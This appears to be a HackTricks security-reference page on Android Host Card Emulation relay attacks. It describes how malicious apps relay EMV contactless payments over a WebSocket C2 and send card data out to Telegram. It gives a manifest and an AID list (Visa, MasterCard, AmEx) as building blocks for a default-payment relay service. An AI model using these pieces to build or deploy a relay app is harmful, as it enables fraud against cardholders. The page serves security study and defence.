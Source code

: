 # Android HCE NFC/EMV Relay Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

Abuse of Android Host Card Emulation (HCE) allows a malicious app set as the default NFC payment service to relay EMV contactless transactions in real-time. The POS terminal talks ISO 14443-4/EMV to the phone; the app’s HostApduService receives APDUs and forwards them over a bidirectional C2 (often WebSocket) to a backend that crafts responses, which are relayed back to the POS. This enables live card emulation without local card data. Campaigns observed at scale rebrand as banks/government apps, prompt to become the default payment app, and auto-exfiltrate device/card data to Telegram bots/channels.

Key traits
- Android components: HostApduService + default NFC payment handler (category "payment")
- Transport/C2: WebSocket for APDU relay; Telegram bot API for exfil/ops
- Operator workflow: structured commands (login, register_device, apdu_command/apdu_response, get_pin/pin_response, paired, check_status, update_required, telegram_notification, error)
- Roles: scanner (read EMV data) vs tapper (HCE/relay) builds

## Minimal implementation building blocks

### Manifest (become default payment HCE service)

```xml
<uses-feature android:name="android.hardware.nfc.hce" android:required="true"/>
<uses-permission android:name="android.permission.NFC"/>

<application ...>
  <service
      android:name=".EmvRelayService"
      android:exported="true"
      android:permission="android.permission.BIND_NFC_SERVICE">
    <intent-filter>
      <action android:name="android.nfc.cardemulation.action.HOST_APDU_SERVICE"/>
    </intent-filter>
    <meta-data
      android:name="android.nfc.cardemulation.host_apdu_service"
      android:resource="@xml/aid_list"/>
  </service>
</application>
```

Example AID list with EMV payment category (only apps set as default payment can answer these AIDs):

```xml
<?xml version="1.0" encoding="utf-8"?>
<host-apdu-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:description="@string/app_name"
    android:requireDeviceUnlock="false">
  <aid-group android:category="payment" android:description="@string/app_name">
    <!-- PPSE (2PAY.SYS.DDF01) routing -->
    <aid-filter android:name="325041592E5359532E4444463031"/>
    <!-- Common EMV AIDs (examples): -->
    <aid-filter android:name="A0000000031010"/> <!-- VISA credit/debit -->
    <aid-filter android:name="A0000000041010"/> <!-- MasterCard -->
    <aid-filter android:name="A00000002501"/>   <!-- AmEx -->
  </aid-group>
</host-apdu-service>
```
